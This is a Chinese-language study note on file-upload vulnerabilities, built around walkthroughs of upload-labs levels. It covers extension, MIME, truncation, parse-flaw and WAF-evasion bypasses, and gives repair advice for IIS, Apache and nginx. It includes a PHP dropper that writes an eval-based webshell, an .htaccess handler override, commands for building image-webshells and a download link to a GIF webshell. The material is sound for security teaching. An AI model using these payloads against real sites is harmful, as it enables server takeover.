# 1.**文件上传漏洞**

## 1.1.**文件上传漏洞定义**

文件上传漏洞是web系统中常见的一种功能，通过文件上传能实现上传图片、视频，以及其他类型的文件，但是随着web中包含的功能越来越多，潜在的网络安全风险也就越大。

如果恶意用户上传了可执行的文件或者脚本，就会导致网站被其控制甚至会使其服务器沦陷，以至于引发恶意的网络安全事件。

## 1.2.**文件上传漏洞原理**

文件上传漏洞是指用户通过界面上的上传功能上传了一个可执行的脚本文件，而WEB端的系统并未对其进行检测或者检测的逻辑做的不够好。

通过来说文件上传功能是没有问题的，主要是服务器如何对上传的文件如何进行处理。

若WEB未对用户上传的文件进行有效的审查，若存在恶意用户对其上传一句话木马，从而实现控制WEB网站的目的。

## 1.3.**文件上传思路**

### 1.3.1.**常规类**

扫描获取上传，会员中心头像上传，后台系统上传，其他途径上传。

### 1.3.2.**cms类**

已知道的cms源码。

### 1.3.3.**编辑类**

ckeditor，fckeditor，kindeditor，xxxxeditor。

### 1.3.4.**其他类/CVE**

代码审计，平台或第三方应用。

## 1.4.**web界面存在的风险点**

上传头像、上传身份认证、上传文件以及有存在文件上传的地方就可能存在相关的漏洞，但不是有文件上传就一定有漏洞，但有文件上传就能进行测试。

## 1.5.**文件上传实战思路**

上传文件和文件执行是两个东西

漏洞分类：解析漏洞、cms漏洞、其他漏洞（编辑器漏洞、cve漏洞、安全修复）

思路：

如果有一个网站，要从文件上传的方向开始

第一步：先看中间件，看是否存在解析漏洞/CMS/编辑器漏洞/CVE/

如果有，如何找：

字典扫描：扫描会员中心，文件上传的位置

找到后，如何利用：

验证/绕过

# 2.**文件上传绕过分类**

## 2.1.**JS类防护**

### 2.1.1.**前端验证**

#### 2.1.1.1.**基本概念**

JS防护就是将上传的文件进行一个格式的验证，但是JS类的防护是用户可以控制的，所以前端的所有验证都是不安全的。

#### 2.1.1.2.**upload-labs第一关**

通过禁用界面JS处理，然后上传1.php文件，可绕过前端检测。关于如何禁用界面JS，可以通过安装插件进行一键禁用。在火狐的插件市场搜索javascript switcher。

 

 

## 2.2.**黑名单**

黑名单就是服务端明确不让上传的格式后缀，例如：rar、php、zip等。

### 2.2.1.**特殊解析后缀**

#### 2.2.1.1.**基本概念**

特殊解析后缀绕过是由于黑名单过滤规则不严谨，在某些特定的情况下的后缀也能够被当作php文件进行解析，例如PHP2、php3、php4、phtml、pht等情况。

可以使用phtml、php3、php4、php5，当然前提是apache服务器，同时在配置文件夹中需要有将AddType application/x-httpd-php .php .phtml .phps .php1 .php4 .pht 这样的一段话前面的注释删除，重启phpstudy让其生效。

#### 2.2.1.2.**upload-labs第三关**

通过源码得知，禁止.asp、.aspx、.php、.jsp类型进行上传。

本关可以通过上传其他文件扩展名进行绕过，实现文件上传。

 

 

 

### 2.2.2.**.htaccess解析**

#### 2.2.2.1.**基本概念** 

.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置.通过htaccess文件，可以实现:网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

#### 2.2.2.2.**upload-labs第四关**

通过源码得知第三关使用的phtml被限制了，并且设定了更多的特殊解析后缀，所以使用特殊解析后缀已经无法绕过了，这里就可以使用到 .htaccess进行绕过测试。

前提条件：

Apache开启rewrite模块

.apache配置文件为AllowOverride All(默认为None)

 .htaccess需要使用notepad++创建，不然创建不了，创建 .htaccess代码：

```php
<FilesMatch "x.png">  

SetHandler application/x-httpd-php

</FilesMatch>
```

x.png是代码将该目录下文件叫x.png的文件以php进行执行。

首先上传.htaccess，其次上传一张名叫x.png的文件，即可执行。

 

 

 

### 2.2.3.**大小写绕过**

#### 2.2.3.1.**基本概念**

后缀大小写是通过服务端未将后缀进行统一的格式转换，导致可以上传PHP的文件，同时由于Windows系统对后缀大小写并不敏感，所以当在写PHP的改成Php就会被当作PHP进行解析。

#### 2.2.3.2.**upload-labs第五关**

通过源码得知，并未对其大小进行限制，且是由于是黑名单，只限制了不可以上传的，那么的我们可以对php后缀进行大小写变形，例如：PHP、Php、pHp等。

 

 

### 2.2.4.**点绕过**

#### 2.2.4.1.**基本概念**

点绕过其实就是利用了Windows对文件和文件名的限制，当将点放在结尾的时候，就会触发操作系统的命名规范问题，所以在生成文件的时候，添加在结尾的点就会被去除。

#### 2.2.4.2.**upload-labs第七关**

通过源码发现，本关并未对结尾点进行检测。那么这里就可以通过在后缀加上点进行绕过，这里我使用的是之前大小写的文件，并未修改名称，所以不要太在意，并不是说使用大小写可以绕过。

 

#### 2.2.4.3.**upload-labs第九关**

通过源码发现本关之前所有的绕过思路都被过滤了，但是通过源码发现，所有的过滤都是一次的，并未对其进行循环过滤。也就是说源码中提到的删除空格，删除点都是只删除一次，那么可以在数据包中将php后缀添加. .，形成.php. .，由于只验证一次，所以删除一个点和一个空格后就不在删除了。

 

### 2.2.5.**空格绕过**

#### 2.2.5.1.**基本概念**

其实空格绕过和点绕过是一样的，都是利用操作系统的特性来进行解析绕过。具体可以看点绕过的解释。

#### 2.2.5.2.**upload-labs第六关**

通过源码发现并未对空格进行限制，那么我们可以在后缀添加一个空格进行绕过，但是在Windows系统中我们无法创建后缀带空格的文件，但是在数据包中不会对后缀的空格进行清楚啊，那么我们这里就需要使用到BS进行抓包，对其进行修改，然后再进行上传。

通过修改后上传到对方服务器的时候，服务器会自动对后面的空格清除，就实现了绕过。

 

### 2.2.6.::$$DATA绕过

#### 2.2.6.1.**基本概念**

在window的时候如果文件名+"::\$DATA"会把::\$DATA之后的数据当成文件流处理,不会检测后缀名，且保持::$DATA之前的文件名，他的目的就是不检查后缀名

#### 2.2.6.2.**upload-labs第八关**

通过源码发现并未对::\$DATA进行检测。可以在后面添加::$DATA进行绕过。

 

### 2.2.7.**配合解析漏洞**

#### 2.2.7.1.**基本概念**

配合解析漏洞就是利用文件上传漏洞和相关的解析漏洞进行结合完成攻击，比如配合iis、nginx、apache、tomcat的解析漏洞得到上传漏洞的实现。具体的看下面提到各种相关的解析漏洞。

### 2.2.8.**双后缀名绕过**

#### 2.2.8.1.**基本概念**

服务端可能存在将后缀替换为空的情况，但是这就存在一种可能就是在编辑过滤的时候只过滤了一次，所以就出现了可以通过双写就绕过的可能。

#### 2.2.8.2.**upload-labs第十关**

通过源码发现，若上传的文件后缀在禁止的列中，那么就将后缀替换为空，而这里又是只过滤一次，那么就可以通过双写进行绕过。

这里由于过滤就是从左到右进行匹配，不要问为什么不从右向左匹配。

例如：pphphp

 

## 2.3.**白名单**

白名单就是服务端明确可以上传的格式后缀，例如：jpg、png、jpeg等。

### 2.3.1.**MIME绕过**

#### 2.3.1.1.**基本概念**

服务端MIME类型检测是通过检查http中包含的Content-Type字段中的值来判断上传文件是否合法的。

利用Burp抓包，将报文中的Content-Type改成允许的类型

Content-Type: image/gif（gif图像）

Content-Type: image/jpg（jpg图像）

Content-Type: image/png（png图像）

#### 2.3.1.2.**upload-labs第二关**

通过源码中第五段分析得出本关采用了content-type进行后端验证，那么通过使用BS抓包对其进行修改content-type，然后再进行上传。

 

### 2.3.2.**%00截断**

#### 2.3.2.1.**基本概念**

%00不是代表空格，而是null，一个空字符，当程序执行到%00后，那么后面的数据就会停止，意思就是误当作结束符，把后面的数据直接忽略了，这就会导致漏洞产生。

在文件上传后，利用%00截断，在文件扩展名验证的时候，就会取文件的扩展名进行验证，但是在最后保存在本地的时候，%00就会截断文件名，只保存%00之前的内容。

%00只能用于php版本低于5.3的。这里我们需要把phpstudy切换一下版本,把magic_quotes_gpc关闭，以phpstudy为例。其他选项菜单---php扩展及设置---参数开关设置---把magic_quotes_gpc关闭。

#### 2.3.2.2.**upload-labs第十一关**

通过源码发现本关是个白名单，但是可以使用%00对路径进行截断。

 

#### 2.3.2.3.**upload-labs第十二关**

本关接受值从get变成了post，它两的区别就是get会自行解码，而post不会解码，所以需要对%00进行解码。

在BS抓包中选中%00右键选择URL其次选择网址解码。

 

## 2.4.**内容及其他**

### 2.4.1.**文件头检测**

#### 2.4.1.1.**基本概念**

图片的格式在防护中通常是不会使用后缀进行判断的依据，文件头是文件开头的一段二进制码，不同类型的图片也就会有不同的二进制头。

```
JPEG (jpg)，文件头：FF D8 FF E1 

PNG (png)，文件头：89 50 4E 47 

GIF (gif)，文件头：47 49 46 38
```

 

#### 2.4.1.2.**upload-labs第十三关**

制作图片马，可以使用Notepad直接打开图片在后面添加一个PHP代码，不过可能会出错。其次就是使用copy X.png /b + 1.php /a x.png 。

制作好的图片马想要解析出来这个图片，还得有这个包含漏洞。我们看到，他已经说了，网站存在包含漏洞

 

上传图片马，并查找路径。

 

构造的URL：http://192.168.10.150/upload-labs/include.php?file=upload/2120221024150121.png

 

 

### 2.4.2.**二次渲染**

#### 2.4.2.1.**基本概念**

 二次渲染就是在我们上传的图片后，网站会对图片进行二次处理，比如对图片的尺寸、格式、以及网站对图片进行定义的一些要求等进行处理，并且服务器会对里面的内容进行二次替换更新，在处理完后，会生成一个合规的图片在网站上显示出来。

#### 2.4.2.2.**upload-labs第十六关**

这里其实同样也可以使用图片马也就是jpg等格式，但是使用gif图片更好。

使用抓包软件进行拦截，方面查看上传后的文件名称。

从网上找的gif图片马：链接：https://pan.baidu.com/s/14I-UOISrg1vU3WKtWLTdsA?pwd=1b8h 提取码：1b8h 

 

 

构建的URL:http://192.168.10.150/upload-labs/include.php?file=/upload/18556.gif

 

### 2.4.3.**条件竞争**

#### 2.4.3.1.**基本概念**

条件竞争就是在源代码中是存在校验的，但是校验是在文件上传后，才开始校验，也就是文件先上传至服务器中，然后服务器会对该文件进行校验，当符合的时候则会对文件进行重命名，当文件不符合要求的时候就对将文件进行删除。

而我们则需要在服务器对文件删除前进行访问，由于文件在访问过程中，服务器是无法删除的，所以就可以利用这个节点实现条件竞争。

### 2.4.4.**突破gatimagesize**

#### 2.4.4.1.**基本概念**

getimagesize函数是用于获取图像大小及相关信息，成功返回一个数组，失败则返回false产生一条e_warning级的错误信息。

通过对图片及代码进行合成图片马，这个时候getimagesize函数既可以获取图片信息，文件后缀php也能够被解析成脚本文件，从而绕过getimagesize函数的限制。

#### 2.4.4.2.**upload-labs第十四关**

本关存有getimagesize函数，这个函数的意思是：会对目标文件的16进制去进行一个读取，去读取头几个字符串是不是符合图片的要求的。

使用办法和第十三关是一样的，前提都是需要存在相关的漏洞。

 

### 2.4.5.**突破exif_imagetype**

#### 2.4.5.1.**基本概念**

服务器exit_imagetype()函数检测上传图片类型是否为白名单图片格式来验证上传文件合法性。可以通过制作图片马绕过，再配合文件包含漏洞解析文件来获取服务器配置信息。

#### 2.4.5.2.**upload-labs第十五关**

上传一张图片马，然后使用br抓包软件对其进行抓包，查看上传后的文件名称。

 

URL:http://192.168.10.150/upload-labs/include.php?file=/upload/4920221126063306.png

 

# 3.**解析漏洞**

## 3.1.**解析漏洞解释**

解析漏洞就是指服务器应用程序在解析某些精心构造的后缀文件的时候，会将相关的文件解析成网页的脚本，从而导致实现控制网站，同时大部分的解析漏洞都是由应用程序产生的。

## 3.2.**IIS解析漏洞**

### 3.2.1.**IIS5.0/6.0**

#### 3.2.1.1.**目录解析**

在以. asp文件名的文件夹下的任何文件都将作为asp文件执行。

也就是当目录为XX.asp的时候，那么当访问下面的图片的时候，如XX.aps/1.jpg就会被当作ASP执行。

#### 3.2.1.2.**文件解析**

如果文件为1.asp;.jpg，由于IIS不解析;后面的内容，使用就会把文件当作1.asp进行解析，同时还存在.asa、.cer、.cdx可以进行解析。

#### 3.2.1.3.**修复建议**

1）限制上传目录的执行权限，不允许执行脚本。

2）不允许创建目录。

3）上传的文件进行重命名。

### 3.2.2.**IIS7.0/IIS7.5**

#### 3.2.2.1.**IIS7.0/IIS7.5Fast-CGI**

在Fast-CGI开启的状态下，在类似1.jpg后面加上/1.php,变成/1.jpg/1.php路径会解析成PHP文件。需要进入php.ini里面修改cig.cgi_ pathinfo=1。

将1.txt文本文件中的后门代码写入到1.jpg图片的二进制代码：

copy 1.jpg/b + 1.txt/a 1.jpg

1.txt的文件内容为：

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[password])?>');?>
```

当在图片文件中写入后门代码，当访问这个图片的时候加上/.php的时候就会在当前目录下生成一句话木马shell.php。

#### 3.2.2.2.**修复建议**

配置cgi.fix_pathinfo(php.ini中)为0并重启php-cgi程序 

 

## 3.3.**apache解析漏洞**

### 3.3.1.**apache解析漏洞**

在apache1.x和apache2.x中存在解析漏洞。

当一个文件为1.php.yy.xx的时候就会被当作php执行，这是由于在apache解析文件的时候有一个原则就是，以.后面的扩展名来解析，当遇见不认识的扩展名的时候，就会向前解析，直到遇到能够解析的后缀名为止。

如：1.php.yy.xx，首先会解析xx，xx无法解析就会去解析yy，yy无法解析就会去解析php，那么php是能够解析了，那么就会结束。

这种方式多用于绕过黑名单的检查。

### 3.3.2.**修复建议**

1）更新至最新版本。

2）将上传的文件进行重命名。

## 3.4.**nginx解析漏洞**

### 3.4.1.**nginx<8.03**

#### 3.4.1.1.**nginx配置文件错误**

由于nginx默认是用cgi解析php的，因此和iis一样可以制作图片马进行上传。

当在图片文件中写入后门代码，当访问这个图片的时候加上/.php的时候就会在当前目录下生成一句话木马shell.php。

#### 3.4.1.2.**修复建议**

1）配置cgi.fix_pathinfo(php.ini中)为0并重启php-cgi程序

 

2）或如果需要使用到cgi.fix_pathinfo这个特性（例如：Wordpress），那么可以禁止上传目录的执行脚本权限。 或将上传存储的内容与网站分离，即站库分离。 

3）或高版本PHP提供了security.limit_extensions这个配置参数，设置security.limit_extensions = .php 

 

### 3.4.2.**nginx 0.5/0.6/0.7<=0.7.65/0.8<=0.8.37**

#### 3.4.2.1.**nginx空字节任意代码执行**

当使用PHP-FastCGI执行PHP时，遇到url里面存在%00空字节时与FastCGI的处理不一致，导致可在非PHP文件中嵌入PHP代码，通过访问url+%00.PHP来执行其中的PHP代码。

比如上传一张图片马1.jpg，那么当访问这个图片马的时在1.jpg后面添加%00.php就会将图片马以php执行。

#### 3.4.2.2.**修复建议**

1）升级nginx版本。

# 4.**编辑器漏洞**

## 4.1.**介绍**

编辑器也就是在线的web编辑器，比如在搭建博客后需要发布文章，那么用来发布文章的界面就是web编辑器。当然web编辑器有很多，如：UEDITOR（百度）、eWebEdit、FCKeditor、CKEditor（新版fck）、Kindeditor、DotNetTextBox、CuteEditor等等。

## 4.2.**编辑器漏洞**

关于编辑器漏洞这一块，本来想总结的但是，内容比较多，而且很多系统下载资源找不到，给一个链接吧。

链接1：https://view.inews.qq.com/a/20210917A0FZ6K00

链接2：https://blog.csdn.net/qq_40806924/article/details/118307640

# 5.**WAF绕过**

## 5.1.**WAF绕过解释**

waf绕过其实就是将数据包截获到，对里面的内容进行解析，比如对文件的后缀名就判断是否在相应的黑名单中，文件内容中是否存在webshell代码。

总的来说文件上传都是在数据包中进行各种操作来进行绕过。

## 5.2.**上传参数名解析**

Content-Disposition :一般可更改

name:表单参数值，不能更改

filename:文件名，可以更改

Content-Type:文件MIME，视情况更改

 

## 5.3.**绕过方式**

### 5.3.1.**数据溢出**

#### 5.3.1.1.**form-data与name之间**

在form-data;与name="upload_file"; filename="2.php"之间添加大量的垃圾数据，可以边添加边测试直到上传上去，主要添加的垃圾数据需要在后面添加一个";"进行结尾。

例如：	

```php
form-data;sadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasA; name="upload_file"; filename="2.php"
```

 

#### 5.3.1.2.**name与filename之间**

当然这里不单单可以插入在form-data;与name="upload_file"; filename="2.php"之间，也可以在name="upload_file"; 与filename="2.php"之间。但是数据不能乱插入，比如你插在2.php中，那肯定不行，一般情况下，文件名称长度都可能存在限制，并且太长也上传不上去。

例如：

```php
Content-Disposition: form-data; name="upload_file"; sadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasA; filename="2.php"
```


### 5.3.2.**符号变异**

#### 5.3.2.1.**filename符号变异**

符号变异也就是将单双引号变换使用，或者单双引号缺失一部分进行使用，或者不使用单双引号来进行绕过。目前测试好像是无法通过了。

Content-Disposition: form-data; name="upload_file"; filename="2.php

Content-Disposition: form-data; name="upload_file"; filename='2.php

Content-Disposition: form-data; name="upload_file"; filename=2.php

 

#### 5.3.2.2.**form-data符号变异**

Content-Disposition:"form-data"; name=upload_file; filename="2.php"

Content-Disposition:'form-data'; name="upload_file"; filename='2.php'

### 5.3.3.**数据截断**

#### 5.3.3.1.**回车换行**

通过换行来实现绕过，但是中间不能有空行。

 

例如：

```php
Content-Disposition: form-data; name="upload_file"; filename="2.
p
h
p"
```


#### 5.3.3.2.**分号截断**

若WAF匹配文件名到分号截止，则可以绕过。

 

### 5.3.4.**字段名变换**

#### 5.3.4.1.**大小写变换**

对这三个字段进行大小写进行变换，比如将name换成Name、Content-Disposition换成content-disposition等等。

#### 5.3.4.2.**顺序颠倒**

针对name和filename这两个字段，我们可以尝试交换name和filename的顺序。（由于有规定Content-Dispositon必须在前面，因此我们不能修改该字段的内容）

### 5.3.5.**重复数据**

通过设置多个参数进行匹配，避免被匹配到。

Content-Disposition: form-data; name="upload_file";filename="2.jpg";filename="2.jpg";filename="2.jpg";filename="2.jpg";......filename="2.php";

## 5.4.**绕过参考链接**

这里也是找到一个比较全的WAF绕过的参考链接。

最全的文件上传漏洞之WAF拦截绕过总结：https://cloud.tencent.com/developer/article/1944142

# 6.**安全修复**

## 6.1.**文件上传修复**

后端验证：针对后端验证的可以采用通过服务器进行验证。

